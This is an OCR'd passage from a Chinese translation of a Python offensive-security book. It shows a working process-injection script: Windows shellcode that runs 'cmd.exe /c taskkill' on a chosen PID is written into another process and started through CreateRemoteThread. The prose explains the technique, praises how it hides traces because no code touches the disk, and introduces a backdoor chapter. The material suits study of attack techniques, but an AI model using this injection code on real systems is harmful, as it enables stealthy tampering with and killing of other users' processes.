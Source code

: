 ```
    "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" \ 
    "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" \ 
    "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" \ 
    "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" \ 
    "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" \ 
    "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09" \ 
    "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" \ 
    "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" \ 
    "\xe7\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x74\x61\x73\x6b" \ 
    "\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41\x41\x41\x41\x00" 
padding = 4 - (len( pid_to_kill ))
replace_value = pid_to_kill + ( "\x00" * padding ) 
replace_string= "\x41" * 4
shellcode = shellcode.replace( replace_string, replace_value ) 
code_size = len(shellcode)
# Get a handle to the process we are injecting into.
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) ) 
if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid 
    sys.exit(0)
# Allocate some space for the shellcode
arg_address = kernel32.VirtualAllocEx(h_process, 0, code_size, VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)
# Write out the shellcode 
written = c_int(0)
kernel32.WriteProcessMemory(h_process, arg_address, shellcode, code_size, byref(written))
# Now we create the remote thread and point its entry routine
# to be head of our shellcode 
thread_id = c_ulong(0)
if not kernel32.CreateRemoteThread(h_process,None,0,arg_address,None, 0,byref(thread_id)):
    print "[*] Failed to inject process-killing shellcode. Exiting." 
    sys.exit(0)
print "[*] Remote thread created with a thread ID of: 0x%08x" % thread_id.value
print "[*] Process %s should not be running anymore!" % pid_to_kill 
```

上面的代码大部分看起来都很熟悉，但是还是有些有趣的技巧的。第一个，替换 shellcode 成我们想终止的 PID 的字符串。另一个值得关注的地方，就是调用 CreateRemoteThread()时， lpStartAddress 指向存放 shellcode 的地址，而 lpParameter 设置为 NULL。因为我们不需要传 入任何参数，我们只是想创建新线程执行 shellcdoe。

脚本调用参数如下：

```
./code_injector.py <PID to inject> <PID to kill> 
```

传入合适的参数，线程创建成功的话，就会返回线程 ID。目标进程被终止后，你会看 到 cmd.exe 进程也结束了。

现在你知道了如何从另一个进程加载和执行 shellcdoe。现在不仅迁移 shell 方便了，隐 藏踪迹也更方便了，因为没有任何代码出现在硬盘上。接下来把我们所学的结合起来，创建 一个可定制的后门，当目标机器上线的时候，就能获取远程访问的权限。

我们能更坏吗？能！

# 7.2 邪恶的代码
